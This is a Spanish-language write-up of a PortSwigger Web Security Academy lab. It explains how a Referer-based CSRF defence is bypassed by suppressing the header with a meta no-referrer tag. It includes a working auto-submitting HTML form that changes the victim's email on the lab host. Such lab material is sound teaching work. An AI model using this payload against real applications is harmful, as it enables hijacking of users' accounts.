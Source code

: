 En este laboratorio se aprovecha una mala implementación del control de Referer como medida de protección contra ataques CSRF. Aunque la aplicación valida el encabezado Referer para asegurarse de que provenga del mismo dominio, acepta las peticiones incluso cuando este encabezado no está presente.

Mediante una metaetiqueta con name igual a referrer y content igual a no-referrer, se evita que el navegador incluya automáticamente el encabezado en la petición. Así, se logra que el servidor acepte la solicitud sin validar el origen, permitiendo cambiar el correo de la víctima sin romper ninguna política de seguridad aparente.

Este tipo de fallos demuestran cómo las medidas de seguridad basadas únicamente en encabezados pueden ser fácilmente burladas, especialmente cuando hay un fallback inseguro como en este caso.

Solucion
aqui vemos la peticion que el referer verifica que nosotro vengamos de la url correcta
![Pasted image 20250723231034.png](imagenes/Pasted image 20250723231034.png)
entonces si nosotro quitamos de alguna manera el referer podemos cambiar el correo y esto lo logramos con un payload donde con las etiquetas html y meta logramos burlarlo
(<html>
<head>
   <meta name="referrer" content="no-referrer">
</head>
<form method="POST" action="https://0a7500d50483caaf80193a2c0082006c.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<script>
        document.forms[0].submit();
</script>
</html>)

![Pasted image 20250723231626.png](imagenes/Pasted image 20250723231626.png)
![Pasted image 20250723231951.png](imagenes/Pasted image 20250723231951.png)